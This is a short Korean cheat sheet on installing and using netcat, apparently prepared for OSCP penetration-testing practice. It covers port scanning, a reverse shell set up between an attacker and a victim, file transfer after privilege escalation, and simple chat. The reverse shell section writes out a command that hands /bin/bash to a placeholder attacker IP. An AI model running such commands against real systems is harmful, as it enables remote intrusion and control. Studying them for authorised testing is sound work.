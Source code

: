 # Netcat 설치 및 실전 사용법

## 설치

```bash
sudo apt update
sudo apt install netcat-traditional -y
```

- `netcat-openbsd`: 최신 옵션(-e 등 일부 제한), 대부분의 리눅스에서 기본 추천
- `netcat-traditional`: 구버전, -e 옵션 지원(리버스 쉘에 유리)
- 실전에서는 둘 중 하나를 명확히 선택해서 설치해야 함
  - 리버스 쉘 등 OSCP 실습에선 `netcat-traditional`이 더 직관적임
  - 설치 오류 시 위 명령어 중 하나를 선택해서 진행

## 주요 사용법

### 1. 포트 스캔

```bash
nc -vn [타겟IP] [포트번호]
nc -vn 10.10.10.10 8080
```

- 열려있는 포트 확인에 사용. `-v`(verbose), `-n`(숫자 IP)

### 2. 리버스 쉘 연결

#### 리스너(공격자)

```bash
nc -lvnp 4444
```

#### 타겟(피해자)

```bash
nc [공격자IP] 4444 -e /bin/bash
# 일부 시스템은 -e 옵션이 막혀있을 수 있음
```

- 리버스 쉘 획득 시 가장 직관적으로 사용

### 3. 파일 전송

#### 송신

```bash
nc [타겟IP] 4444 < 파일명
```

#### 수신

```bash
nc -lvnp 4444 > 파일명
```

- 권한 상승 후 바이너리 전송 등 실전에서 자주 활용

### 4. 간단한 채팅

#### 서버

```bash
nc -lvnp 1234
```

#### 클라이언트

```bash
nc [서버IP] 1234
```

- 내부 네트워크에서 통신 테스트에 유용

## 팁

- netcat은 단순하지만 강력함. 실전에서는 리버스 쉘, 파일 전송, 포트 스캔에 가장 많이 사용됨
- `ncat`(nmap 패키지 포함)은 netcat의 대체품으로, 옵션이 더 다양함
